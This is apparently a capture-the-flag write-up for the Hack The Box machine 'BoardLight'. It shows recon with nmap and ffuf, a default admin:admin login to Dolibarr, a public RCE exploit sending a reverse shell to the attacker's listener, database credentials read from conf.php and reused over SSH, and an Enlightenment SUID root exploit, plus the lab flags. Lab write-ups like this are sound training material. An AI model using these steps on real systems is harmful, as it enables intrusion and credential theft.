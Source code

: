 ```yaml
---
layout: post
title: "BoardLight"
description: "BoardLight is an Easy rated Linux machine on HTB."
categories: [CTF,HTB]
tags: [Linux,Easy]
author: g
---
```


## Nmap Scan
```bash
┌──(kali㉿kali)-[~]
└─$ nmap -sC -sV -p 80 10.10.11.11
Starting Nmap 7.94SVN ( <https://nmap.org> ) at 2024-06-10 12:23 EDT
Nmap scan report for board.htb (10.10.11.11)
Host is up (0.035s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: Apache/2.4.41 (Ubuntu)

Service detection performed. Please report any incorrect results at <https://nmap.org/submit/> .
Nmap done: 1 IP address (1 host up) scanned in 9.33 seconds
```


## Enumerate HTTP (Port 80)

While enumerating for subdomains we come across: `crm.board.htb`.
```bash
┌──(kali㉿kali)-[~]
└─$ ffuf -w /usr/share/wordlists/dirb/big.txt -H "Host: FUZZ.board.htb" -u <http://board.htb> -fs 15949

        /'___\\  /'___\\           /'___\\       
       /\\ \\__/ /\\ \\__/  __  __  /\\ \\__/       
       \\ \\ ,__\\\\ \\ ,__\\/\\ \\/\\ \\ \\ \\ ,__\\      
        \\ \\ \\_/ \\ \\ \\_/\\ \\ \\_\\ \\ \\ \\ \\_/      
         \\ \\_\\   \\ \\_\\  \\ \\____/  \\ \\_\\       
          \\/_/    \\/_/   \\/___/    \\/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : <http://board.htb>
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirb/big.txt
 :: Header           : Host: FUZZ.board.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 15949
________________________________________________

crm                     [Status: 200, Size: 6360, Words: 397, Lines: 150, Duration: 283ms]
:: Progress: [20469/20469] :: Job [1/1] :: 200 req/sec :: Duration: [0:01:57] :: Errors: 0 ::
```

Add the entry to the hosts file.
```bash
┌──(kali㉿kali)-[~]
└─$ tail -n 1 /etc/hosts
10.10.11.11 board.htb crm.board.htb
```

Found the exact software and version running on the server: `Dolibarr 17.0.0`.
![Pasted image 20240715112244.png](/images/Pasted image 20240715112244.png){: .normal width="400"}

We are able to authenticate using `admin:admin`.
![Pasted image 20240715112240.png](/images/Pasted image 20240715112240.png){: .normal }

Found authenticated RCE PoC script for Dolibarr 17.0.0: [Link](https://github.com/nikn0laty/Exploit-for-Dolibarr-17.0.0-CVE-2023-30253).
```bash
┌──(kali㉿kali)-[~]
└─$ python3 exploit.py <http://crm.board.htb> admin admin 10.10.14.205 9001
[*] Trying authentication...
[**] Login: admin
[**] Password: admin
[*] Trying created site...
[*] Trying created page...
[*] Trying editing page and call reverse shell... Press Ctrl+C after successful connection
```

Gained shell connection.
```bash
┌──(kali㉿kali)-[~]
└─$ nc -lnvp 9001
listening on [any] 9001 ...
connect to [10.10.14.205] from (UNKNOWN) [10.10.11.11] 43200
bash: cannot set terminal process group (856): Inappropriate ioctl for device
bash: no job control in this shell
www-data@boardlight:~/html/crm.board.htb/htdocs/public/website$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

## Lateral movement
Found database credentials.
```bash
www-data@boardlight:~/html/crm.board.htb/htdocs/conf$ cat conf.php
$dolibarr_main_db_user='dolibarrowner';
$dolibarr_main_db_pass='serverfun2$2023!!';
```

Connect to DB using creds.
```bash
www-data@boardlight:~$ mysql -u dolibarrowner -p
Enter password: 
Welcome to the MySQL monitor.  Commands end with ; or \\g.
Your MySQL connection id is 94
Server version: 8.0.36-0ubuntu0.20.04.1 (Ubuntu)

Copyright (c) 2000, 2024, Oracle and/or its affiliates.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\\h' for help. Type '\\c' to clear the current input statement.

mysql> 
```

Hashes in the database proved to not be crackable, instead the DB password was used to SSH as the larissa user.
```bash
┌──(kali㉿kali)-[~]
└─$ ssh larissa@board.htb
larissa@board.htb's password: 
Last login: Mon Jun 10 10:07:56 2024 from 10.10.14.205
larissa@boardlight:~$ id
uid=1000(larissa) gid=1000(larissa) groups=1000(larissa),4(adm)
```

User.txt: `3213b313bea243091459487b95520c12`
```bash
larissa@boardlight:~$ cat user.txt 
3213b313bea243091459487b95520c12
```


## Privilege Escalation
Find unknown SUID binaries using Linpeas.
```bash
-rwsr-xr-x 1 root root 27K Jan 29  2020 /usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_sys (Unknown SUID binary!)
-rwsr-xr-x 1 root root 15K Jan 29  2020 /usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_ckpasswd (Unknown SUID binary!)
-rwsr-xr-x 1 root root 15K Jan 29  2020 /usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_backlight (Unknown SUID binary!)
-rwsr-xr-x 1 root root 15K Jan 29  2020 /usr/lib/x86_64-linux-gnu/enlightenment/modules/cpufreq/linux-gnu-x86_64-0.23.1/freqset (Unknown SUID binary!)
```

Found PrivEsc PoC on GitHub for the elightenment binary: [Link](https://github.com/MaherAzzouzi/CVE-2022-37706-LPE-exploit/blob/main/exploit.sh).
```bash
larissa@boardlight:/tmp$ ./priv.sh
CVE-2022-37706
[*] Trying to find the vulnerable SUID file...
[*] This may take few seconds...
[+] Vulnerable SUID binary found!
[+] Trying to pop a root shell!
[+] Enjoy the root shell :)
mount: /dev/../tmp/: can't find in /etc/fstab.
# id
uid=0(root) gid=0(root) groups=0(root),4(adm),1000(larissa)
```

Root.txt: `6abfae9e69e4d5d182e3b5c6f95b7f17`
```bash
# cat /root/root.txt
6abfae9e69e4d5d182e3b5c6f95b7f17
```

## PWNED!!!
![Pasted image 20240715112218.png](/images/Pasted image 20240715112218.png){: .normal }